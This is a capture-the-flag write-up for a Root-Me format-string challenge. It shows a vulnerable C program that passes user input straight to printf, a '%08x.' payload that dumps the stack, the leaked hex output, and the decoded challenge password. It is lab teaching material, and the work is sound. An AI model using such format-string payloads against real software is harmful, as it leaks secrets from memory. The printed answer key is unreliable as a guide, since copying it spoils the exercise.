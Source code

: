 # ELF x86 - Format string bug basic 1
- Point: 15pts
- Author: [Lu33Y](https://www.root-me.org/Lu33Y?lang=en),  8 February 2012
- Level: Easy<br><br>
![image](https://user-images.githubusercontent.com/48288606/141501790-9851fa6d-9b74-44b1-9960-74e627795010.png)
## Write-up:

```
#include <stdio.h>
#include <unistd.h>
 
int main(int argc, char *argv[]){
        FILE *secret = fopen("/challenge/app-systeme/ch5/.passwd", "rt");
        char buffer[32];
        fgets(buffer, sizeof(buffer), secret);
        printf(argv[1]);
        fclose(secret);
        return 0;
}
```
The code open file **.passwd** which includes the password we need, then write it into **buffer** array. <br>
The vulnerability in `printf(argv[1]);`, it execute without **Format specifier".**So we can take advantage of this  to look into the stack to find out the password.
### Solution:
- We'll "scan" the buffer space and examine the output value. Print the value with hex code: <br>
`./ch5 $(python -c "print '%08x.'*32")`
- Output:
```
00000020.0804b160.0804853d.00000009.bffffcc5.b7e1b589.bffffb94.b7fc3000.b7fc3000.0804b160.39617044.28293664.6d617045.bf000a64.0804861b.00000002.bffffb94.bffffba0.cfa6f800.bffffb00.00000000.00000000.b7e03f21.b7fc3000.b7fc3000.00000000.b7e03f21.00000002.bffffb94.bffffba0.bffffb24.00000001.
```
- Convert to ASCII text ([HextoText](https://www.rapidtables.com/convert/number/hex-to-ascii.html)):<br><br>
![image](https://user-images.githubusercontent.com/48288606/141614663-d2edc72c-3b5f-4267-9ec4-aefeb2fcfeb7.png)<br><br>
As illustrated, a part of string above contains the real password; therefore, we just write these bytes into "big endian" [See script here](ELF%20x86%20-%20Format%20string%20bug%20basic%201.py) format and convert again to hex.<br>
Pass: Dpa9d6)(Epamd


